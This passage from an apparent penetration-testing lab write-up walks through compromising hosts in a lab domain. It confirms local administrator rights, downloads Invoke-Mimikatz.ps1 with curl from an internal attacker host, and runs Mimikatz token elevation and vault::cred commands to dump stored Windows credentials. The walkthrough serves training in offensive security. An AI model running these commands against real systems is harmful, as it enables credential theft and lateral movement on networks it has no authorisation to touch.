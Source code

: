 ![](https://i.imgur.com/WjrWuTa.png)

- We can then confirm if `techservice` is an **"administrator"** on `techsrv30

```
Net LocalGroup Administrators
```

![](https://i.imgur.com/XpXW1vz.png)

> Yeah, we now belong to the local administrators group as `techservice`

# **03 - dbserver31.tech.finance.corp**

***
## ***System Information***
***

Hostname: **dbserver31**

IP Address: **172.16.6.31**

***
## **Steps to Compromise**
***

- Since we have administrative privileges on `techsrv30`, we can go ahead and extract credentials from credential vault using `Invoke-Mimikatz.ps1`, First of all transfer the file to our machine using `curl`

```
curl http://172.16.100.1/Invoke-Mimikatz.ps1 -O .\Invoke-Mimikatz.ps1
```

![](https://i.imgur.com/9a0wCn7.png)

- Now execute invoke-mimikatz to extract credentials

```
# Start up powershell
powershell

# load invoke-mimkatz.ps1 into current powershell process
. .\Invoke-Mimikatz.ps1

# extract credentials from credential vault
Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```

> The following command uses `Mimikatz` to perform token manipulation and access the Windows Credential Manager (vault::cred) to potentially interact with stored credentials

![](https://i.imgur.com/u8GTRb6.png)
